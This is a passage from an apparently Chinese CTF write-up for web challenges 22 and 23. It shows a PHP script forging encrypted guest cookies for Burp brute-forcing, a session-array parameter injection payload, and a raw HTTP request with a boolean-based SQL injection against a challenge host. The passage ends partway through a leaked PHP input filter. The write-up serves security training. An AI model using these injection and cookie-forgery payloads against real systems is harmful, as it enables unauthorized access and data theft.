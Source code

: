 ```
    for($i=0;$i<16;$i++){
        $tmp = $key.$s[$i];
        for($ii=0;$ii<strlen($txt1);$ii++){
            $txt2 .= $txt1[$ii] ^ $tmp[$ii];
        }
        file_put_contents('1.txt',base64_encode($rnd.$txt2)."\r\n",FILE_APPEND);   
        $txt2='';
        
    }
}
ss('eldUVRdOWRhI','guest'); // 设置获取的guest用户的cookie值。

```
这个生成了16个加密的密文，用burp加载后，跑一遍，即可得到flag 。


----
## Web 22

脑洞题...
shell[pass]=asdfasdf&shell[_SESSION][login]=asd&shell[login]=false

参考：http://bbs.heetian.com/forum.php?mod=viewthread&tid=29

----
## Web 23

```
POST / HTTP/1.1
Host: 218.76.35.75:20108
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://218.76.35.75:20108/
Cookie: PHPSESSID=ufc8ipcufou5efg86pk3r4v2r4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

username=admin'+and+(left(database(),5)='web18')+and+'1'='1&password=123
```
 得到数据库 web18
 
后来，无意中看了下robots.txt
可以看到一个哈希文件夹
乱七八糟的脑洞题...里面有个upload.php  文件泄漏了index.php的源码

```
    if ((isset($_POST['username'])&&isset($_POST['password'])))
    {
        try
        {
            $user=trim(str_replace(" ","",$_POST['username']));
            $user=str_replace("*","",$user);
            $user=str_replace(";","",$user);
            $user=str_replace("#","",$user);
            $user=str_replace("\r","",$user);
            $user=str_replace("\n","",$user);
            $user=str_replace(urldecode("%09"),"",$user);
            $user=str_replace(urldecode("%0b"),"",$user);
            $user=str_replace(urldecode("%0c"),"",$user);
            $user=str_replace(urldecode("%0d"),"",$user);

```